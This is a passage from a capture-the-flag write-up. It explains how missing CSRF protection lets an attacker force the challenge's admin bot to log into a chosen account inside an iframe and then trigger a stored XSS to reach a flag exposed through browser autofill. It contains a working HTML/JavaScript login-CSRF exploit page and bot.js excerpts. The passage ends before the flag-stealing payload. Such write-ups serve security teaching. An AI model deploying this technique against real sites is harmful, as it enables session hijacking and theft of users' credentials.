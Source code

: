 Since there is no **CSRF** protection in the app, if the bot visit our malicious page, we can make it send requests to handle his user session, like logging in with another user.

We can use an `<iframe>` to make sure the bot does not have any session active and make it login with the user we want. The bot then will trigger the XSS inside the iframe.

Indeed, we can host a simple HTML page that automatically logins as our wanted user, and then visits the dashboard page with the XSS payload.
```html
<!-- xss.html -->
<iframe id="x-frame" src="{{ app_url }}/"></iframe>
<script>
  const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));
  x = async () => {
    // await sleep(1000);
    xframe = document.getElementById("x-frame");
    xframe.contentWindow.fetch("{{ app_url }}/api/login", {
      method: "POST",
      mode: "no-cors",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        username: "{{ username }}",
        password: "{{ password }}",
      }),
    });
    await sleep(1000);
    xframe.src = "{{ app_url }}/dashboard";
    // xss should trigger now
  };
  x();
</script>
```

Now we just need the right xss payload to retrieve the flag. 

The flag is stored in the userSettings of the admin, as shown in the `bot.js` file. We don't have the credentials to log in as admin, but we don't need that since the browser has the autofill form enabled.

```js
// bot.js
...

// Launch Firefox with custom profile using persistent context
context = await firefox.launchPersistentContext(tempProfilePath, {
  headless: true,
  ignoreHTTPSErrors: true,
  acceptDownloads: false,
  firefoxUserPrefs: {
    'signon.rememberSignons': true,
    'signon.autofillForms': true,
  }
});

...

await page.click('a:has-text("Settings")');
// Fill in settings form
await page.waitForSelector('input[name="displayName"]', { timeout: 5000 });
console.log(`[+] Filling settings form with flag: ${FLAG}`);
await page.fill('input[name="displayName"]', FLAG);

...
```